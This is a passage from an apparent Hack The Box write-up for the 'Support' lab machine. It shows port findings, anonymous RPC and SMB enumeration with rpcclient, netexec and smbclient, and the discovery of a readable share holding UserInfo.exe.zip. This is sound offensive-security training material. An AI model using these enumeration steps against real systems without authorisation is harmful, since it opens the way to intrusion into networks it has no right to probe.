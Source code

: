 ```
Nmap done: 1 IP address (1 host up) scanned in 156.74 seconds
```
The interesting ports to enumerate are
1. 135 -->  RPC
2. 139,445 -->  SMB
3. 389 -->  LDAP
4. 5985 -->  WINRM

I add the domain name to my hosts file for `dns` resolution
```
echo '10.10.11.174 support.htb' | sudo tee -a /etc/hosts
```
### Service Enumeration
Using `rpccient` we connect anonymously but we can't enumerate users in the machine because of insufficient privileges
```
rpcclient -N -U "" 10.10.11.174                          
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 
```
## Initial Access
### SMB Share Analysis
Using `netexec` we connect with the guest account and we list shares. I see a non-default share `support-tools` which I have read access to
```
nxc smb 10.10.11.174 -u 'guest' -p '' --shares
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SMB         10.10.11.174    445    DC               [*] Enumerated shares
SMB         10.10.11.174    445    DC               Share           Permissions     Remark
SMB         10.10.11.174    445    DC               -----           -----------     ------
SMB         10.10.11.174    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.174    445    DC               C$                              Default share
SMB         10.10.11.174    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.174    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.174    445    DC               support-tools   READ            support staff tools
SMB         10.10.11.174    445    DC               SYSVOL                          Logon server share 
```
Using `smbclient` we connect anonymously to the share and list the directories. The file that stood out the most was `UserInfo.exe.zip` 
```
smbclient -N //10.10.11.174/support-tools
Try "help" to get a list of possible commands.
smb: \> ls 
  .                                   D        0  Wed Jul 20 17:01:06 2022
  ..                                  D        0  Sat May 28 11:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 11:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 11:19:55 2022
  putty.exe                           A  1273576  Sat May 28 11:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 11:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 17:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 11:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 11:19:43 2022

                4026367 blocks of size 4096. 970017 blocks available
smb: \> 
```